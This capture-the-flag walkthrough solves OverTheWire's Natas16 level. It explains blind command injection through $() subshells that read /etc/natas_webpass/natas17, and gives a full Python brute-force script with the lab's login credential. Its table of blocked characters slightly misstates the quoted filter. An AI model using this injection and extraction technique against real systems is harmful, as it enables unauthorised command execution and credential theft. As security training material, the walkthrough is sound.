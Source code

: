 # 🔐 Natas16 Walkthrough

This level is similar to Natas15, but now we have **extra restrictions**!  
Check the [source code](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
## 🚫 Forbidden Characters  

The following characters are **blocked**, so we can’t use them for command injection:  

| 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9  | 10  |
|----|----|----|----|----|----|----|----|----|-----|
| `/` | `[` | `]` | `;` | `\|` | `&` | `'` | `"` | `\` | `` ` `` |




**Good news:**  The `$` character is **still allowed**—that’s our way in!  


 ## 🌀 Subshell

Since `` '/[;|&`\'"]/' `` are forbidden, we can’t directly inject multiple commands. Luckily, the `$()` syntax is allowed, which executes a command inside a subshell. A ***subshell*** is a way to execute a command inside another command in the shell. Whatever the subshell outputs can then be used or appended in the outer command.

<div align="center">
  <img src="diagram-1.png" alt="Diagram">
</div>


## 🔍 Testing a character
Input:
```shell
$(grep e /etc/natas_webpass/natas17)squid
```


- If **e** is in the password, squid does not appear in the output. ✅

- If **e** is not, squid appears. ❌

This way, we can test each possible character in the password **without using the forbidden characters.** 


***Test:***


| INPUT    | OUTPUT |
| -------- | ------- |
| $(grep **e** /etc/natas_webpass/natas17)squid| None    |
| $(grep **a** /etc/natas_webpass/natas17)squid | squid, squid's, squidded, squidding, squids    |



Clearly, the password contains `e` and **doesnt** contain `a`. Now, as before we shall automate this process.

>[IMPORTANT!]
>We add `squid` at the end of the command solely to avoid printing the entire dictionary. The command itself would work the same without it, but in that case the full dictionary would be displayed, making it harder to analyze the website’s response due to the large number of returned strings.
## Python script

This script was written with readability in mind. I've added slightly altered version of the script to this directory which has some "animations" in the console log so, feel free to use that one.

```python
import requests
import string
import time

# =====================
# === CONFIGURATION ===
# =====================
url = "http://natas16.natas.labs.overthewire.org/"
authUsername = "natas16"
authPassword = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Possible characters in the password (letters + digits)
charData = string.ascii_letters + string.digits

# =====================================
# === STEP 1: Find valid characters ===
# =====================================

matchingCharData = ""  # This will hold characters that exist in the password

print("Step 1: Testing which characters exist in the password...\n")

for i in charData:
    # Create the payload using subshell injection.
    # "$(grep <char> /etc/natas_webpass/natas17)squid" will execute grep on the password file.
    # If <char> exists in the password, 'squid' will NOT appear in the response.
    injection = f"$(grep {i} /etc/natas_webpass/natas17)squid"
    tempUrl = f"{url}?needle={injection}&submit=Search"

    # Send the HTTP GET request with basic auth
    response = requests.get(tempUrl, auth=(authUsername, authPassword))

    # Check response for presence of 'squid'
    if 'squid' not in response.text:
        # Character exists in the password
        matchingCharData += i
        print(f"Valid character found: '{i}'")

print(f"\nPossible password characters: {matchingCharData}\n")

# ==========================================
# === STEP 2: Brute-force password order ===
# ==========================================

password = ""  # To build the password incrementally
print("Step 2: Brute-forcing password character by character...\n")

# Natas passwords are 32 characters long
while len(password) < 32:
    for char in matchingCharData:
        # Attempt to see if the password starts with the current guess
        attempt = password + char
        injection = f"$(grep ^{attempt} /etc/natas_webpass/natas17)squid"
        tempUrl = f"{url}?needle={injection}&submit=Search"

        response = requests.get(tempUrl, auth=(authUsername, authPassword))

        if 'squid' not in response.text:
            # Correct next character found
            password += char
            print(f"Password so far: {password}")
            break  # Move to next character

# Print final password
print(f"\nPassword for natas17: {password}")
```

The output should be your natas17 password! (:


